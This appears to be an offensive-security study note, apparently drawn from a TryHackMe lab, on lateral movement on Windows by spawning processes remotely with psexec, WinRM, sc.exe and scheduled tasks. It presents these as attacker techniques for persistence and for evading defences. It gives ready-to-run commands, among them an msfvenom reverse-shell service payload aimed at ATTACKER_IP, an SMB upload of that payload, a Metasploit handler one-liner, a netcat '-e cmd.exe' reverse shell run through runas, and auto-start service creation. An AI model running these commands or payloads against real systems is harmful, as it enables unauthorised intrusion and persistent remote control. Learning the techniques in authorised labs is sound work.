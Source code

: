 --- ---

<h2>General</h2>

Spawning Processes Remotely allows an attacker to create a new service on the target machine and associate it with a payload, which can provide a more persistent reverse shell connection that would survive a reboot of the target machine and provides a persistence mechanism for the attacker. This is better than a normal netcat reverse shell as it allows the attacker to have more control over the service and configure it to run automatically, and also allows the attacker to run the service with higher privileges than the current user.

- More information
	Spawning Processes Remotely is a technique to execute commands or run applications on a remote system without direct login. It can be done using various tools such as:
	ㅤ
	-   **psexec**: Allows execution of processes on remote systems, it can be used to run commands or launch GUI applications on remote systems.
	-   **winRM**: Windows Remote Management, it is a Microsoft protocol that allows administrators to execute commands on remote systems, it can be used to remotely execute commands, scripts, and other tasks.
	-   **sc.exe**: A command-line tool that allows you to remotely manage and control services on a Windows system.
	ㅤ
	One use-case is to add an executable file to a target system and add it to the PATH. This can be achieved by:
	ㅤ
	-   Using smbclient to transfer the executable file to a directory on the target system.
	-   Using sc.exe to create a new service and configure it to run the executable file.
	-   Adding the path of the executable file to the PATH environment variable so that the system can find the executable file when it is run.

But why using Spawning Processes Remotely?

- Bypass some security feature enable on the target machine  
- The system may not have SSH or other remote access methods enabled or configured.
-   The attacker may not have valid credentials for the system.
-   Spawning a process remotely may allow the attacker to bypass security controls, such as firewall rules or intrusion detection systems.
-   Spawning process remotely can be used as a way to gain persistence on the remote system.
-   Spawning process remotely can help to hide the attacker's presence and activities on the system, making it more difficult for security personnel to detect and respond to an intrusion.

***The choice of technique may depend on the specific situation and the target's security controls. For example, if the target has a firewall that blocks certain ports (Example RDP and SSH are closed), an attacker may choose a technique that can bypass or circumvent the firewall.***

---
<h2>Commands</h2>

### Psexec
- **Ports:** 445/TCP (SMB)
- **Required Group Memberships:** Administrators

PsExec is a command-line utility developed by Sysinternals (now owned by Microsoft) that allows a user to execute processes on a remote system. It can be used to start a program on a remote computer and interact with it as if it were running locally.

Example
	The way psexec works is as follows:
	ㅤ
	1.  Connect to Admin$ share and upload a service binary. Psexec uses psexesvc.exe as the name.
	2.  Connect to the service control manager to create and run a service named PSEXESVC and associate the service binary with `C:\Windows\psexesvc.exe`.
	3.  Create some named pipes to handle stdin/stdout/stderr.
	ㅤ
	![psexec explained](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/a488102fe0da47a3667961400cf298d8.png)

Command
```shell-session
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```
- Download [Here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)



### WinRM
-   **Ports:** 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
-   **Required Group Memberships:** Remote Management Users

Windows Remote Management (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely. Most Windows Server installations will have WinRM enabled by default, making it an attractive attack vector.

CMD
```shell-session
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```
-   -u option is used to specify the username
-   -p option is used to specify the password
-   -r option is used to specify the name or IP address of the remote system.

PowerShell
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

```powershell
Enter-PSSession -Computername TARGET -Credential $credential
```

```powershell
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```



### SC
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCE/RPC)
    -   445/TCP (RPC over SMB Named Pipes)
    -   139/TCP (RPC over SMB Named Pipes)
-   **Required Group Memberships:** Administrators

Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

Example
	1.  A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
	ㅤ
	![svcctl via RPC](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c4f288e73da9c0f4d480ad817b365fe5.png)  
	ㅤ
	3.  If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS).
	ㅤ
	![svcctl via named pipe](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/0c425c37d692c771c944e38dca8c5879.png)


Create an EXE that will be run by SC
```
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

Adding the EXE file on the target Machine (Via SMB)
```
smbclient -c 'put myservice.exe' -U USER.AD -W ZA '//MACHINE.DOMAIN/SHARE$/' PASSWORD_OF_USER
```
- W option is used to specify the workgroup or domain of the SMB server.

Launch Meterpreter (One Liner)
```
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```

Using Runas to get a revershell from the USER (Get user Permission)
```shell-session
C:\> runas /netonly /user:DOMAIN\USER "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```
- Explaining
	Since `sc.exe` doesn't allow us to specify credentials as part of the command, we need to use `runas` to spawn a new shell with t1_leonard.summer's access token. Still, we only have SSH access to the machine, so if we tried something like `runas /netonly /user:ZA\t1_leonard.summers cmd.exe`, the new command prompt would spawn on the user's session, but we would have no access to it. To overcome this problem, we can use runas to spawn a second reverse shell with t1_leonard.summers access token

Commands (Create Process, adding the process to the path and linking it to the EXE file)
```shell-session
C:\> sc.exe \\MACHINE_DOMAIN create PROCESS_NAME-3249 binPath= "%windir%\myservice.exe" start= auto C:\> sc.exe \\MACHINE_DOMAIN start PROCESS_NAME-3249
```

The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

To stop and delete the service, we can then execute the following commands:
```shell-session
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```



### Scheduled Tasks

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with schtasks, available in any Windows installation.

Command
```shell-session
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s TARGET /run /TN "THMtask1" 
```

We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (/sd) and starting time (/st) won't matter much anyway.

Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.

Finally, to delete the scheduled task, we can use the following command and clean up after ourselves:
```shell-session
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```